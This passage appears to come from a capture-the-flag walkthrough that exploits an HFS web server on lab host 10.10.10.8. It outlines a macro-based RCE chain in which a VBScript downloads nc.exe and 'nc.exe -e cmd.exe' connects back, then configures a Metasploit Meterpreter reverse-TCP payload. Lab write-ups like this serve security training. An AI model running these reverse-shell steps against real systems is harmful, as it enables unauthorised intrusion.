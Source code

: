 **Vulnerability:**  
- HFS interprets template macros like `{.exec|...}`, leading to RCE.  

**Exploit Flow (3 HTTP requests):**  
1. `save|` → Create `C:\Users\Public\script.vbs` to download `nc.exe`.  
2. `exec|` → Run `cscript.exe script.vbs` to fetch the binary.  
3. `exec|` → Launch `nc.exe -e cmd.exe` to connect back.  

---
## 3. Exploitation

Check for a Metasploit module:

```bash
msfconsole
search hfs
```

![](screenshots/metasploit.png)

The fourth exploit is the correct one, so let's configure it:

```bash
payload windows/meterpreter/reverse_tcp
rhosts 10.10.10.8
lhost 10.10.14.10
lport 443
run
```

A Meterpreter session is established.
